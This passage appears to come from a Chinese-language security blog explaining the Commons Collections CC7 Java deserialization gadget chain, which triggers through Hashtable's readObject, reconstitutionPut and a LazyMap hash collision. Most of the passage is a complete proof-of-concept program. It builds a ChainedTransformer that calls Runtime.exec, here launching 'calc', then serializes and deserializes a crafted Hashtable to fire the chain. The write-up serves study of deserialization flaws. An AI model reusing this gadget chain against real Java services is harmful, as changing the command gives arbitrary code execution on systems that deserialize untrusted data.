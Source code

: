 入口点利用了 HashTable 通过 readObject 中调用`reconstitutionPut`,然后又调用了 equals，然后找到了 AbstractMapDecorator 类中的 equals 方法中调用了 get 方法。

然后在 equals 中存在一个哈希碰撞，比较罕见，这里就不展开来研究了，可以参考 fakesoul 师傅写的文章：

[https://xz.aliyun.com/t/12207#toc-10](https://xz.aliyun.com/t/12207#toc-10)

```bash
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class cc7 {
    public static void main(String[] args) throws NoSuchFieldException,
            IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeformers = new Transformer[]{new
                ConstantTransformer(2)};
        Transformer[] transforms = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,
                        Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,
                        Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);
        Map innerMap1 = new HashMap();
        innerMap1.put("pP",1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo",1);
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1,1);
        hashtable.put(lazyMap2,2);
        lazyMap2.remove("pP");
        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transforms);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```
